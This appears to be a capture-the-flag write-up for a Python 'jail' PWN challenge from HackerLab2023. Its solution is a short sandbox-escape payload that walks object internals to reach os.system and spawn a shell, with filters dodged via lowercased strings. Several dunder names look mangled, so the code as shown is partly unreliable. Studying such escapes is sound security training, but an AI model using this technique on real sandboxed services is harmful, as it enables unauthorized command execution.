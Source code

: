 #### Categorie: PWN
#### **Author**: 5c0r7
#### Solve: 15/20 
#### Points: 500 pts (at first)| 360 pts (at end)

#### Write-up by:[0xJekyll](https://twitter.com/Ted_Kouhouenou) 

### Description : 
#### **[FR]**
Un autre jail, échappe les filtres.
#### **[EN]**
Another jail, bypass the filters.

`nc 54.37.70.250 1004`

https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf

## Solution :
### Fr Version

![prison](Images/gankpame2.png)


__builtins__['a']=__builtins__
a['b']=()._class.bases_
a['c']=b[0]._subclasses_()
a['d']=c[59]._init_
a['e']=d._getattribute_
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g._dict_
a['i']=h['OS'.lower()]
a['j']=i._dict_
j['SYSTEM'.lower()]('sh')